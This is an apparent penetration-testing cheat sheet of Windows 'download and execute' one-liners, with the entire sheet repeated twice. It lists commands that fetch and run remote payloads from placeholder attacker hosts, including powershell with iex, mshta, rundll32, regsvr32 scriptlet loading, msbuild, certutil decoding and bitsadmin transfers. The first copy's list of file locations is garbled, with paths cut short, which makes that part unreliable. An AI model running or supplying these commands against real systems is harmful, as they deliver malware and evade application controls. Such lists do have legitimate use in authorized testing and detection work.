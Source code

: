 # Windows - Download and Execute

# Windows - Download and execute methods

## Downloaded files location

- C:<username>Internet Files
- C:<username><subdir>
- C:_DAV

## Powershell

From an HTTP server

    powershell -exec bypass -c "(New-Object Net.WebClient).Proxy.Credentials=[Net.CredentialCache]::DefaultNetworkCredentials;iwr('http://webserver/payload.ps1')|iex"

From a Webdav server

    powershell -exec bypass -f \\webdavserver\folder\payload.ps1

## Cmd

    cmd.exe /k < \\webdavserver\folder\batchfile.txt

## Cscript / Wscript

    cscript //E:jscript \\webdavserver\folder\payload.txt

## Mshta

    mshta vbscript:Close(Execute("GetObject(""script:http://webserver/payload.sct"")"))

    mshta http://webserver/payload.hta

    mshta \\webdavserver\folder\payload.hta

## Rundll32

    rundll32 \\webdavserver\folder\payload.dll,entrypoint

    rundll32.exe javascript:"\..\mshtml,RunHTMLApplication";o=GetObject("script:http://webserver/payload.sct");window.close();

## Regasm / Regsvc @subTee

    C:\Windows\Microsoft.NET\Framework64\v4.0.30319\regasm.exe /u \\webdavserver\folder\payload.dll

## Regsvr32 @subTee

    regsvr32 /u /n /s /i:http://webserver/payload.sct scrobj.dll

    regsvr32 /u /n /s /i:\\webdavserver\folder\payload.sct scrobj.dll

## Odbcconf

    odbcconf /s /a {regsvr \\webdavserver\folder\payload_dll.txt}

## Msbuild

    cmd /V /c "set MB="C:\Windows\Microsoft.NET\Framework64\v4.0.30319\MSBuild.exe" & !MB! /noautoresponse /preprocess \\webdavserver\folder\payload.xml > payload.xml & !MB! payload.xml"

## Certutil

    certutil -urlcache -split -f http://webserver/payload.b64 payload.b64 & certutil -decode payload.b64 payload.dll & C:\Windows\Microsoft.NET\Framework64\v4.0.30319\InstallUtil /logfile= /LogToConsole=false /u payload.dll

    certutil -urlcache -split -f http://webserver/payload.b64 payload.b64 & certutil -decode payload.b64 payload.exe & payload.exe

## Bitsadmin

    bitsadmin /transfer mydownloadjob /download /priority normal http://<attackerIP>/xyz.exe C:\\Users\\%USERNAME%\\AppData\\local\\temp\\xyz.exe

## References

- [arno0x0x - Windows oneliners to download remote payload and execute arbitrary code](https://arno0x0x.wordpress.com/2017/11/20/windows-oneliners-to-download-remote-payload-and-execute-arbitrary-code/)

# Windows - Download and execute methods

## Downloaded files location

- C:\Users<username>\AppData\Local\Microsoft\Windows\Temporary Internet Files\
- C:\Users<username>\AppData\Local\Microsoft\Windows\INetCache\IE<subdir>
- C:\Windows\ServiceProfiles\LocalService\AppData\Local\Temp\TfsStore\Tfs_DAV

## Powershell

From an HTTP server

    powershell -exec bypass -c "(New-Object Net.WebClient).Proxy.Credentials=[Net.CredentialCache]::DefaultNetworkCredentials;iwr('http://webserver/payload.ps1')|iex"

From a Webdav server

    powershell -exec bypass -f \\webdavserver\folder\payload.ps1

## Cmd

    cmd.exe /k < \\webdavserver\folder\batchfile.txt

## Cscript / Wscript

    cscript //E:jscript \\webdavserver\folder\payload.txt

## Mshta

    mshta vbscript:Close(Execute("GetObject(""script:http://webserver/payload.sct"")"))

    mshta http://webserver/payload.hta

    mshta \\webdavserver\folder\payload.hta

## Rundll32

    rundll32 \\webdavserver\folder\payload.dll,entrypoint

    rundll32.exe javascript:"\..\mshtml,RunHTMLApplication";o=GetObject("script:http://webserver/payload.sct");window.close();

## Regasm / Regsvc @subTee

    C:\Windows\Microsoft.NET\Framework64\v4.0.30319\regasm.exe /u \\webdavserver\folder\payload.dll

## Regsvr32 @subTee

    regsvr32 /u /n /s /i:http://webserver/payload.sct scrobj.dll

    regsvr32 /u /n /s /i:\\webdavserver\folder\payload.sct scrobj.dll

## Odbcconf

    odbcconf /s /a {regsvr \\webdavserver\folder\payload_dll.txt}

## Msbuild

    cmd /V /c "set MB="C:\Windows\Microsoft.NET\Framework64\v4.0.30319\MSBuild.exe" & !MB! /noautoresponse /preprocess \\webdavserver\folder\payload.xml > payload.xml & !MB! payload.xml"

## Certutil

    certutil -urlcache -split -f http://webserver/payload.b64 payload.b64 & certutil -decode payload.b64 payload.dll & C:\Windows\Microsoft.NET\Framework64\v4.0.30319\InstallUtil /logfile= /LogToConsole=false /u payload.dll

    certutil -urlcache -split -f http://webserver/payload.b64 payload.b64 & certutil -decode payload.b64 payload.exe & payload.exe

## Bitsadmin

    bitsadmin /transfer mydownloadjob /download /priority normal http://<attackerIP>/xyz.exe C:\\Users\\%USERNAME%\\AppData\\local\\temp\\xyz.exe

## References

- [arno0x0x - Windows oneliners to download remote payload and execute arbitrary code](https://arno0x0x.wordpress.com/2017/11/20/windows-oneliners-to-download-remote-payload-and-execute-arbitrary-code/)